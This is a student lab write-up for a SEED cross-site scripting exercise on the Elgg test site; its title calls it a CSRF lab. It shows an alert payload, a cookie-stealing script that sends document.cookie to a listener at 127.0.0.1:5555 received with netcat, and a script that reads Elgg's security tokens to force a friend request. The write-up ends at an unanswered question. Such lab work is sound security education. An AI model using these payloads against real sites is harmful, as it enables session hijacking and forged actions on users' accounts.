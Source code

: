 # CS 4173 Lab 5
#### Cross-Site Request Forgery Attack Lab

## Prerequisites
Versions of software used listed here:
- Environment: SEEDUbuntu 16.04

## Task 1: Posting a Malicious Message to Display an Alert Window

In this task,verify that the system is indeed vulnerable to cross-site scripting attacks. An easy way to test this in general is to submit content with a `<script>` tag and see if something simple such as an alert box can be called. We post the following contents to Samy's profile:

```html
<script>alert('XSS');</script>
```

Upon visiting Samy's profile, the visitor now gets an alert box popup saying "XSS" which confirms that the system is susceptible to XSS attacks.

## Task 2: Posting a Malicious Message to Display Cookies

Now that we can use XSS on this system, we can now start attempting to grab private user data, in particular cookies. We can modify the script above to do so:

```html
<script>alert(document.cookie);</script>
```

## Task 3: Stealing Cookies from the Victim’s Machine

With the above method, we can alert the cookies to the user's screen, but the attacker is not yet able to view this information. In order to transfer this data to the attacker, they can use a malicioius HTTP GET request, for example with a fake image. We can append the information to this request which goes to the attacker's machine. In this example, we are using the localhost IP address since we are testing on the same machine:

```html
<script>document.write('<img src="http://127.0.0.1:5555?c=' + escape(document.cookie) + '>')</script>
```

Then, using the `netcat` utility, we can view the incoming GET requests from the attacker which will include the appended cookie data:

```
$ nc -l 5555 -v
```

## Task 4: Becoming the Victim’s Friend


```html
<script type="text/javascript">
    window.onload = function () {
        let xhr = null;

        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        let sendurl = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;

        //Create and send xhr request to add friend
        xhr = new XMLHttpRequest();
        xhr.open("GET",sendurl,true);
        xhr.setRequestHeader("Host","www.xsslabelgg.com");
        xhr.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
        xhr.send();
    }
</script>
```

### Question 1

These two lines retrieve the tokens which are used to prevent CSRF attacks. In order to make a request, one must have the correct tokens or else the server will reject the request.

### Question 2